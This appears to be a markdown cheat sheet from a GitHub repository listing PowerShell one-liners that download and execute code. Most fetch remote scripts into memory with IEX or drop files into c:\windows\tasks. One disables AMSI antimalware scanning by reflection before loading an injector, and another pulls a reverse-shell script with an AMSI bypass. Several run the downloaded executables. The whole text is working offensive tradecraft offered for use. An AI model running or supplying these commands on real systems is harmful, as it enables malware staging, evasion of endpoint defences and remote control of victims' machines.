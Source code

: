 ## Download/Execute in Memory

### Load Powershell Script directly into memory: 
Works in CLM | Proxy Aware 
-------|---------
[ ] | [ X ]   

```
$str = "(New-Object System.Net.WebClient).DownloadString('http://192.168.1.121/getuser.ps1') | IEX"
Invoke-Expression $str
```


### Load Powershell Script directly into memory: 
Works in CLM | Proxy Aware 
-------|---------
[ ] | [ X ]

```
powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.22.55/run.txt'))
```

### Invoke-Command (in memory)
Bypass CLM | Proxy Aware 
-------|---------
[  ] | [ X ]
```
powershell -ep bypass -c "Invoke-Command -ScriptBlock {$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like \"*iUtils\") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like \"*tFailed\") {$f=$e}};$f.SetValue($null,$true);iex((new-object system.net.webclient).downloadstring('http://192.168.1.128/psscripts/dinjector/dinjector.txt'))}"
```


## Download Files

###  System.Net.Http Download Files
Works in CLM | Proxy Aware 
-------|---------
[ ] | [ X ]

```
Add-Type -AssemblyName System.Net.Http;$a=(New-Object System.Net.Http.HttpClient).getasync('http://192.168.22.55/issue.hta'); $a.wait();$o=[System.IO.FileStream]::new('c:\windows\tasks\test.txt', [System.IO.FileMode]::Create, [System.IO.FileAccess]::Write);$a.Result.Content.CopyToAsync($o).Wait();$o.close()
```

### System.net.WebClient DownloadFile
Works in CLM | Proxy Aware 
-------|---------
[ ] | [ X ]

```
(new-object System.Net.WebClient).downloadFile('http://192.168.22.55/test.txt','c:\windows\tasks\test.txt')
```


### Invoke-RestMethod
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]
```
Invoke-RestMethod -Uri http://192.168.22.55/tete.exe -OutFile c:\windows\tasks\test.txt
Start-Process -FilePath "Purecsrunner.exe"
```

### Invoke-WebRequest
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
Invoke-WebRequest -Uri 'http://192.168.22.55/Purecsrunner.exe' -OutFile 'Purecsrunner.exe'
Start-Process -FilePath "Purecsrunner.exe"
```

### Powershell IWR
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
powershell.exe iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe
```

### Powershell-Wget
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
powershell wget http://192.168.22.55/psscripts/PlainRS-wAmsiByp/rshell-am.txt -outfile c:\windows\tasks\test.exe
```

### Start-bitstransfer
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
powershell -c "start-bitstransfer -source http://192.168.22.55/some.exe c:\windows\tasks\some.exe"
```
